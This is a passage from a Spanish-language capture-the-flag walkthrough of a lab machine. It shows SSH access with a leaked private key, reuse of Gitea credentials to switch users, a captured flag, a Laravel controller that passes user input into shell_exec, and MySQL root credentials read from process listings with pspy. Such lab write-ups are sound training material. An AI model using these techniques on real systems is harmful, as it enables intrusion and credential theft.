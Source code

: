 ```sh
-----END RSA PRIVATE KEY-----
```

```bash
❯ ssh -i id_rsa charlie@10.10.11.171
The authenticity of host '10.10.11.171 (10.10.11.171)' can't be established.
ED25519 key fingerprint is SHA256:f9e/N03fZyqc98TRtAnDizBbOVZt7TDlhcR/wXgJz3U.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.171' (ED25519) to the list of known hosts.
charlie@extension:~$ id
uid=1001(charlie) gid=1001(charlie) groups=1001(charlie)
charlie@extension:~$ 
```

Podemos reutilizar las credenciales de gitea y migrar al usuario `Jean`, obteniendo el user.txt

```sh
charlie@extension:~$ su jean
Password: 
jean@extension:/home/charlie$ cd
jean@extension:~$ cat user.txt 
8371a246e34d9441cdd683aaad5ddabd
jean@extension:~$ 
```

# Escalada de Privilegios

Jean en su directorio personal de usuario tiene unos archivos interesantes, y un archivo PHP parece tener una vulnerabilidad

```sh
jean@extension:~/projects/laravel-app/app/Http/Controllers$ cat AdminController.php | tail -n 11 | head -n 8
        if ($given !== $actual) {
            throw ValidationException::withMessages([
                'email' => "Invalid signature!",
            ]);
        } else {
            $res = shell_exec("ping -c1 -W1 $domain > /dev/null && echo 'Mail is valid!' || echo 'Mail is not valid!'");
            return Redirect::back()->with('message', trim($res));
        }
jean@extension:~/projects/laravel-app/app/Http/Controllers$ 
```

La vulnerabilidad reside en que está metiendo una variable que podemos controlar en un comando

Mirando tareas con pspy encontramos credenciales válidas para MySQL

```shell
CMD: UID=0    PID=28723 | sh -c mysql -u root -ptoor --database webapp ....
```

Ya que la máquina no tiene ´MySQL´, haremos un Port Forwarding para que el puerto 3306 de la máquina víctima sea el puerto 3306 de nuestro localhost
